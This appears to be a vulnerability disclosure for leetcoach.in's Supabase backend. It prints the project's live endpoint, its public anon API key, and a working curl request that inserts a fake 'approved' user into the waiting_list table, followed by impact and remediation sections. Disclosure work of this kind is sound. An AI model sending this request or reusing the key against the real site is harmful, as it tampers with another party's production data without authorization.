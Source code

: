 ## 🛡️ Vulnerability Report: Unauthorized Data Insertion via Supabase API

### 📌 Title:  
**Insecure Supabase Configuration Allows Unauthorized Data Insertion into `waiting_list` Table**

---

### 🧠 Summary:
The Supabase backend used by `leetcoach.in` is misconfigured, allowing unauthenticated users to insert arbitrary data into the `waiting_list` table. This is due to exposed API keys with overly permissive access and the absence of proper authorization checks or row-level security (RLS).

---

### 🔍 Affected Asset:
- **API Endpoint:** `https://byteqaryxylhgalzwxpf.supabase.co/rest/v1/waiting_list`  
- **Frontend Domain:** `https://leetcoach.in`  
- **Database Table Affected:** `waiting_list`

---

### 💥 Vulnerability Type:
- Broken Access Control  
- Insecure Direct Object Reference (IDOR)  
- Excessive Permissions on `anon` API Key  
- Missing Authorization Checks  
- Potential GDPR/PII Violation

---

### ⚙️ Steps to Reproduce:

1. Use the public `anon` API key from the frontend JavaScript source or network traffic:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImJ5dGVxYXJ5eHlsaGdhbHp3eHBmIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NDg3MDI5NzEsImV4cCI6MjA2NDI3ODk3MX0.pV4fizKt0g93bpoonB4HtZJ9pdWTHtDWmqPXfK078rM
2. Craft the following `curl` request:
```bash
curl -s -X POST \
  -H "apikey: <anon_api_key>" \
  -H "Authorization: Bearer <anon_api_key>" \
  -H "Content-Type: application/json" \
  -H "Prefer: return=representation" \
  -d '{
    "email": "attacker@evil.com",
    "name": "H4ck3r",
    "status": "approved"
  }' \
  "https://byteqaryxylhgalzwxpf.supabase.co/rest/v1/waiting_list"
```
3. Observe a successful response:
```bash
[{
  "id": "uuid",
  "email": "attacker@evil.com",
  "name": "H4ck3r",
  "status": "approved",
  "joined_at": "...",
  "early_bird_discount": true
}]
```
---
### 📊 Impact:
1. Allows anyone to insert fake users into production databases.
2. Leads to data pollution, fraud, or privilege escalation.
3. May result in loss of trust or legal implications if sensitive data is involved.
4. No accountability since insertions are unauthenticated.
---
### 🔐 Recommended Remediation:
1. Enable Row-Level Security (RLS) on all tables.
2. Restrict anon role permissions to SELECT or use RPC-only models.
3. Move inserts behind serverless functions with authentication validation.
4. Rotate compromised API keys immediately.
5. Audit Supabase policies for other insecure configurations.
---


